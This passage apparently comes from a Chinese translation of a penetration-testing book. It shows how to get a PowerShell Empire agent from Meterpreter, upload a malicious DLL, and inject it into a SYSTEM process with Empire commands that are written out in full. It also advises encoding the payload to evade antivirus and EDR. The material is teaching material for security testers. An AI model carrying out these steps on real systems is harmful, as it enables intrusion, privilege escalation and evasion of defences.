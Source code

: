 图 12.8：从 Meterpreter 执行 Empire 代理负载

成功执行 PowerShell 后，应该会向 Empire 控制台报告一个代理。攻击者可以通过运行 `agents` 命令并在 Empire 中使用代理名称通过 `interact` 命令与代理进行交互来验证这一点，如 *图 12.9* 所示：

![](img/B17765_12_09.png)

图 12.9：成功的代理向 Empire 客户端控制台报告

测试人员现在可以将我们创建的 DLL 文件上传到目标系统；这将上传到执行 PowerShell 脚本的文件夹中：

![](img/B17765_12_10.png)

图 12.10：将恶意 DLL 上传到目标

在 PowerShell Empire 终端中运行 `ps` 命令，应该会列出目标上当前正在运行的进程。选择正确的进程（该进程以 `NT AUTHORITY/SYSTEM` 运行），然后在 PowerShell Empire 终端中执行以下命令：

```
(Empire: 2A54TX1L) > ps
(Empire: 2A54TX1L) > upload /root/chap12/injectme.dll
(Empire: 2A54TX1L) > usemodule code_execution/invoke_dllinjection
(Empire: powershell/code_execution/invoke_dllinjection) > set ProcessID 4060
(Empire: powershell/code_execution/invoke_dllinjection) > set Dll C:\<location>\injectmex64.dll
(Empire: powershell/code_execution/invoke_dllinjection) > execute 
```

如果测试人员在运行 `ps` 命令时无法看到系统进程所有者，则应以本地管理员身份运行 Empire PowerShell 有效负载。

大多数防病毒/反恶意软件/EDR 系统都能轻松检测到此方法；然而，建议对 DLL 的有效负载进行多次编码。

一旦 DLL 文件注入到正在运行的进程中，攻击者应该能够看到一个以特权用户身份报告回来的代理，如 *图 12.11* 所示：

![](img/B17765_12_11.png)
